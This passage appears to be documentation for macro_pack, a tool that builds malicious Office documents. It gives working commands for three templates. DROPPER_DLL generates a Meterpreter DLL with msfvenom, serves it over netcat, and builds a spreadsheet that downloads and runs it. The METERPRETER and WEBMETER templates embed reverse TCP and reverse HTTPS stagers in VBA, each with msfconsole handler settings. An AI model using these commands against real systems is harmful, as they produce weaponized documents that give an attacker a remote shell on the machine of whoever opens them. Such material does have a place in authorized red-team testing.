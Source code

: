  
### DROPPER_DLL
Download a DLL with another extension and run it using Office VBA  
  -> Example, load meterpreter DLL using Office:  
```batch
REM Generate meterpreter dll payload
msfvenom.bat  -p windows/meterpreter/reverse_tcp LHOST=192.168.0.5 -f dll -o meter.dll
REM Make it available on webserver, ex using netcat on port 6666
{ echo -ne "HTTP/1.0 200 OK\r\n\r\n"; cat meter.dll; } | nc -l -p 6666 -q1
REM Create OFfice file which will download DLL and call it
REM The DLL URL is http://192.168.0.5:6666/normal.html and it will be saved as .asd file
echo "http://192.168.0.5:6666/normal.html" Run | macro_pack.exe -t DROPPER_DLL -o -G meterdll.xls
```
        
### METERPRETER  
Meterpreter reverse TCP template using MacroMeter by Cn33liz.  
This template is CSharp Meterpreter Stager build by Cn33liz and embedded within VBA using DotNetToJScript from James Forshaw.  
Give this template the IP and PORT of listening mfsconsole  
  -> Example: ```echo <ip> <port> | macro_pack.exe -t METERPRETER -o -G meter.docm``` 
 
Recommended msfconsole options (use exploit/multi/handler):
```
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <ip>
set LPORT <port>
set AutoRunScript post/windows/manage/migrate
set EXITFUNC thread
set ExitOnSession false
set EnableUnicodeEncoding true
set EnableStageEncoding true
exploit -j
```

### WEBMETER  
Meterpreter reverse TCP template using VbsMeter by Cn33liz.  
This template is CSharp Meterpreter Stager build by Cn33liz and embedded within VBA using DotNetToJScript from James Forshaw.  
Give this template the IP and PORT of listening mfsconsole  
  -> Example: ```echo <ip> <port> | macro_pack.exe -t WEBMETER -o -G meter.vsd``` 
 
Recommended msfconsole options (use exploit/multi/handler):
```
set PAYLOAD windows/meterpreter/reverse_https (32bit)
set PAYLOAD windows/x64/meterpreter/reverse_https (64bit)
set AutoRunScript post/windows/manage/migrate
set LHOST <ip>
set LPORT <port>
set EXITFUNC thread
set ExitOnSession false
set EnableUnicodeEncoding true
set EnableStageEncoding true
exploit -j
```
